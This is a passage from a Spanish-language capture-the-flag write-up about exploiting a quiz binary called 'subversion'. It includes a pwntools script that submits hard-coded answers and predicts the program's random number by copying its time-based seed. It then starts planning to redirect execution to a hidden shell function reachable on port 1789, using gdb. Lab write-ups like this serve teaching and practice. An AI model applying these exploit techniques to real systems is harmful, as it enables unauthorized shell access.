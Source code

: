 Con este exploit podremos responder las preguntas de manera automática, pero ahora debemos lograr generar el numero aleatorio exacto:

```python
#!/usr/bin/env python3

from pwn import *
import ctypes


def exploit():

    binario = './subversion'
    p = process(binario)


    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")


    seed = int(time.time()) ^ 69
    libc = ctypes.CDLL("libc.so.6")
    libc.srand(seed)
    random_number = libc.rand() % 10000000
    random_number = int(random_number)
    random_bytes = bytes(str(random_number), 'utf-8')


    p.recvuntil(b"Respuesta:")
    p.sendline(random_bytes)



if __name__ == '__main__':
    exploit()

```

Este exploit logra generar el numero aleatorio.

Ahora vamos a intentar llamar la función shell del binario, ya que si recordamos nunca es llamada y la máquina tiene este binario funcionando por el puerto 1789, por lo que podríamos obtener una shell por ese lado. Para hacerlo primero necesitamos saber cual es la dirección de la función, y para esto usaremos `gdb`:
